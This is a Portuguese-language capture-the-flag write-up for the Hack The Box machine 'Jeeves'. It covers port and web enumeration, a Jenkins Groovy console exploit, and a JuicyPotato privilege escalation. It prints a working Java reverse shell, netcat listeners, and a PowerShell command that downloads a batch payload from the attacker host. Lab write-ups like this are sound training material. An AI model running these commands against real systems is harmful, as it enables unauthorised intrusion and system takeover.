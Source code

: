 Jeeves
========================
# Enumeration

    sudo nmap_enum jeeves.htb | tee nmap_output.txt

![qownnotes-media-ErxBki](../../../media/qownnotes-media-ErxBki.png)

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn jeeves.htb | tee nmap_udp_output.txt
 
 ![qownnotes-media-WUkTQI](../../../media/qownnotes-media-WUkTQI.png)
 
    sudo nmap -Pn -n -T5 -sC -p- jeeves.htb | tee nmap_fullportstcp_output.txt
    
![qownnotes-media-RElMdB](../../../media/qownnotes-media-RElMdB.png)

    nikto -host http://10.10.10.63 -T x 6 | tee nikto_80_output.txt
    
    
![qownnotes-media-uMuuTt](../../../media/qownnotes-media-uMuuTt.png)



    nikto -host http://10.10.10.63:50000 -T x 6 | tee nikto_50000_output.txt
    
![qownnotes-media-tdsWHU](../../../media/qownnotes-media-tdsWHU.png)

    
    gobuster dir -u http://10.10.10.63:50000 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_50000_gobuster"

![qownnotes-media-wFoLvy](../../../media/qownnotes-media-wFoLvy.png)


    gobuster dir -u http://10.10.10.63 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_gobuster"
    
![qownnotes-media-mPMUWH](../../../media/qownnotes-media-mPMUWH.png)

Null session

    smbclient -L //10.10.10.63 -U '' -N

![qownnotes-media-CwDUZi](../../../media/qownnotes-media-CwDUZi.png)


    rpcclient -U '' -N 10.10.10.63

![qownnotes-media-QvEoWw](../../../media/qownnotes-media-QvEoWw.png)

Search explolits

    searchsploit jetty

![qownnotes-media-otxabb](../../../media/qownnotes-media-otxabb.png)

![qownnotes-media-XbPSbZ](../../../media/qownnotes-media-XbPSbZ.png)


![qownnotes-media-dqcjOK](../../../media/qownnotes-media-dqcjOK.png)

Aqui um aprendizado interssante que se trata do seguinte... Na enumeração web, utilizar de outras listas de diretórios, pois nesse caso não foi identificado a web managment do jenkins:

Então, ficou dessa forrma para detectarmos a web console:

    gobuster dir -u http://10.10.10.63:50000 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_jeeves_gobuster.txt"

![qownnotes-media-AfZgzX](../../../media/qownnotes-media-AfZgzX.png)


![qownnotes-media-bQbdvz](../../../media/qownnotes-media-bQbdvz.png)

# Exploitation

Aqui foi relativamente trivial, pois  com uma pesquisa rápida no google já deu pra chegar na shell rapidinho:

https://www.hackingarticles.in/exploiting-jenkins-groovy-script-console-in-multiple-ways/

<https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76>

![qownnotes-media-pFMOLn](../../../media/qownnotes-media-pFMOLn.png)

Basta mudar o IP do exploit e já era:

    String host="10.10.14.8";
    int port=8044;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();


    nc -nlvp 8044

![qownnotes-media-TAQaYz](../../../media/qownnotes-media-TAQaYz.png)

# Privilege Escalation

Primeiro teste e já com sucesso:

    whoam /priv

![qownnotes-media-HlTXtv](../../../media/qownnotes-media-HlTXtv.png)

JuicyPotato na manga:

    copy \\10.10.14.8\smb\"4-privilege escalation\JuicyPotato.exe" jp.exe

![qownnotes-media-rWtOAk](../../../media/qownnotes-media-rWtOAk.png)

    powershell -exec bypass -c "(new-object net.webclient).downloadfile('http://10.10.14.8/shell.bat', 'c:\temp\shell.bat')"
    
    
![qownnotes-media-oIvoPX](../../../media/qownnotes-media-oIvoPX.png)

    jp.exe -t * -p shell.bat -l 4444
    
    nc -nlvp 8082
    
![qownnotes-media-IGhZti](../../../media/qownnotes-media-IGhZti.png)

    Get-ChildItem -Include *.txt -File -Path C: -Recurse -ErrorAction SilentlyContinue
    
    dir /a C:\users\administrator\desktop